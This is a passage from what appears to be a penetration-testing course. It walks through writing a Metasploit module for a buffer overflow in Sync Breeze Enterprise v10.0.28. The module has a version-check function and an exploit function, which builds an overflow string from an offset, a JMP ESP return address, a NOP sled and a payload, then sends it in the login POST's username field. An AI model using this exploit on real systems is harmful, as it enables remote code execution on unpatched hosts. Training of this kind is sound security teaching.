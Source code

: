 > Listing 62 - Metasploit module options and settings

Next, we will update the _check_ function, which is done by performing a HTTP GET request to the URL /. On a vulnerable system, the result contains the text "Sync Breeze Enterprise v10.0.28".

```
def check
  res = send_request_cgi(
    'uri'    =>  '/',
    'method' =>  'GET'
  )

  if res && res.code == 200
	  product_name = res.body.scan(/(Sync Breeze Enterprise v[^<]*)/i).flatten.first
	  if product_name =~ /10\.0\.28/
      		return Exploit::CheckCode::Appears
    end
  end

  return Exploit::CheckCode::Safe
end
```

> Listing 63 - The check function for our module

The final section is the exploit itself. First, we will create the exploit string, which uses the offset and the memory address for the JMP ESP instruction along with a NOP sled and the payload. Then we'll send the crafted malicious string through an HTTP POST request using the /login URL as in the original exploit. We will populate the HTTP POST _username_ variable with the exploit string:

```
def exploit
  print_status("Generating exploit...")
  exp = rand_text_alpha(target['Offset'])
  exp << [target.ret].pack('V')
  exp << rand_text(4)
  exp << make_nops(10) # NOP sled to make sure we land on jmp to shellcode
  exp << payload.encoded

  print_status("Sending exploit...")

  send_request_cgi(
    'uri' =>  '/login',
    'method' =>  'POST',
    'connection' =>  'keep-alive',
    'vars_post' => {
            'username' => "#{exp}",
            'password' => "fakepsw"
          }
  )

  handler
  disconnect
end
```
